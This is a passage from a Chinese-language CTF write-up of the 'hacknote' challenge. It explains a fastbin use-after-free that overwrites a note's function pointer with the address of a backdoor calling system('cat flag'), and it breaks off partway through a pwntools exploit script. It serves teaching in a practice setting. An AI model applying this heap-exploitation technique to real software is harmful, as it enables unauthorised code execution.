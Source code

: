 `print_note_content`函数，也就是每个notelist[i]的前四个字节的函数如下：

    int __cdecl print_note_content(int a1)
    {
      return puts(*(const char **)(a1 + 4)); // puts函数对传进来的参数偏移4字节的地方输出
    }

程序中可能用到的一处后门函数：

    int magic()
    {
      return system("cat flag");
    }

该后门函数入口地址是`0x08048986`。

现在我们已经明白整个程序的工作流程了。由于`free`后，程序并没有将指针置零，因此用户可以对已经被`free`的内容进行修改。那如何进行修改呢？实际上，当用户申请的`chunk`被`free`以后，该`chunk`会添加到`fastbin`中，若用户再次申请等同于该`chunk`大小的空间时，该`chunk`又会被分配给用户使用。在本程序中，用户只能在`add_note`中对`chunk`进行赋值，由此可以用如下流程进行`UAF`:

*   用户添加两块大小为0x10字节的note，分别设为note0和note1
*   申请每个note时，会先申请0x8字节用于存放note的两个指针。
*   删除note0，再删除note1。那么有四个空间被`free`，分别为：大小为0x8字节的note0的空间，note0后四字节指向的大小为0x10的content的空间，大小为0x8字节的note1的空间，note1后四字节指向的大小为0x10的content的空间。
*   由于fastbins是先进后出，因此fastbin链表中有：大小为0x10字节的note1->note0，大小为0x18字节的content1->content0。注意其中加上了header的0x8字节，32位下是0x8字节的header。
*   用户此时再申请一个大小为0x8的note，设为note2，先申请0x8字节用于存放note2的两个指针，那么这里申请到的0x8字节的空间实际上是note1。再申请0x8字节的空间用于存放note2后四字节指向的content，这里实际上申请到的是note0。
*   用户申请note2时可以对其进行赋值，赋值实际上是对note0进行修改。若对其赋值为`0x08048986`，那么note0的前四字节将会被修改为`0x08048986`。此时用户对note0进行打印操作，那么会调用`0x08048986`处的函数，也就是后门函数，成功执行漏洞。

`exp`如下：

    from pwn import *

    context(log_level='debug')
    sh = process('./hacknote')
    elf = ELF('./hacknote')
    libc = elf.libc

    def debug():
        pid = util.proc.pidof(sh)[0]
        print('pid:{}'.format(pid))
        gdb.attach(pid)
        pause()

    def add_note(size, content):
        sh.recvuntil('Your choice :')
        sh.sendline('1')
        sh.recvuntil('Note size :')
        sh.sendline(str(size))
        sh.recvuntil('Content :')
        sh.sendline(content)

    def delete_note(index):
        sh.recvuntil('Your choice :')
        sh.sendline('2')
        sh.recvuntil('Index :')
        sh.sendline(str(index))
